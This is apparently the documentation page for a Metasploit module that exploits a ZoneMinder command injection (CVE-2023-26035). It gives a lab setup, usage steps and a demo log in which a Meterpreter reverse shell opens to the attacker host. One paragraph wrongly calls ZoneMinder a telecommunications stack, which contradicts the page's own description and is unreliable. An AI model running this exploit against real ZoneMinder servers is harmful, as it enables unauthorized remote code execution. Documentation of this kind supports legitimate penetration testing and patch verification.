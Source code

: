 ## Description

This module exploits a command injection that leads to a remote execution in ZoneMinder surveillance software versions before 1.36.33 and before 1.37.33

More about the vulnerability detail: [2023-26035](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26035).

The module will automatically use `cmd/linux/http/x64/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by sending a sleep command.


## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:

* 1.36.31~64bit on Debian 11

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/tree/1.36.31)
* [Installers](https://zoneminder.readthedocs.io/en/stable/installationguide/index.html)

**The 3rd party debian-repository has packages for the vulnerable versions(for example zoneminder=1.36.31-bullseye1)**

### Ansible Installation

This exploit was tested using [a debian bullseye cloudimage](https://cloud.debian.org/images/cloud/bullseye/20210814-734/)
with the following ansible-roles:

```yaml
roles:
  - src: https://github.com/ait-cs-IaaS/atb-ansible-zoneminder.git
    version: v1.2
    name: zoneminder
  - src: https://github.com/ait-cs-IaaS/atb-ansible-debiansnapshot.git
    version: v1.2
    name: debiansnapshot
  - src: https://github.com/ait-cs-IaaS/ansible-mariadb.git
    version: v1.0.0
    name: mariadb
  - src: https://github.com/ait-cs-IaaS/ansible-apache2.git
    version: v1.3
    name: apache2
```

Zoneminder was deployed using the following playbook:

```yaml
- name: Install old Debian-Archive-Repo Host
  hosts: all
  remote_user: debian
  become: true
  vars:
    debsnap_timestamp: 20210815T082041Z
    debsnap_debrelease: bullseye
  roles:
    - role: debiansnapshot

- name: Install Videoserver Host
  hosts: all
  remote_user: debian
  become: true
  tasks:
    - name: Install Videoserver Packages
      ansible.builtin.apt:
          pkg:
            - vim
            - curl
            - netcat-traditional
          update_cache: yes

  roles:
          - role: mariadb
          - role: apache2
            vars:
              apache2_modules:
                - name: "headers"
                - name: "rewrite"
                - name: "expires"
                - name: "cgi"
              apache2_vhosts:
                - name: default
                  http: true
                  vhost_template: "redir.j2"
          - role: zoneminder
            vars:
              zoneminder_debrelease: bullseye
```

The following template-file("redir.j2") for apache2 redirects requests to the
zoneminder subdirectory:

```
<VirtualHost *:80>
	ServerName {{ item.name }}
{% if item.aliases is defined %}
	ServerAlias {{ item.aliases|join(' ') }}
{% endif %}
	DocumentRoot {{ apache2_vhost_dir }}/{{ item.name }}
        RedirectMatch ^/$ /zm/
	ErrorLog {{ apache2_vhost_dir }}/{{ item.name }}/log/error.log
	CustomLog {{ apache2_vhost_dir }}/{{ item.name }}/log/access.log combined

	<Directory "{{ apache2_vhost_dir }}/{{ item.name }}">
		Options FollowSymLinks MultiViews
		AllowOverride All
		Require all granted
	</Directory>
</VirtualHost>
```

## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/zoneminder_snapshots`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### TARGETURI

Remote web path to the zoneminder installation (default: /zm/)

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Zoneminder 1.36.31-bullseye1

The following demo shows how to use the exploit with minimal settings:

```
msf exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 192.42.1.188:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 10.249642733018845 seconds.
[+] The target appears to be vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:b5da21a154bc5f46cd2b3648fe9e44931dd74bac,1697109606
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 192.42.0.254
[*] Meterpreter session 1 opened (192.42.1.188:4444 -> 192.42.0.254:56398) at 2023-10-12 11:20:07 +0000
[+] Payload sent

meterpreter >
```

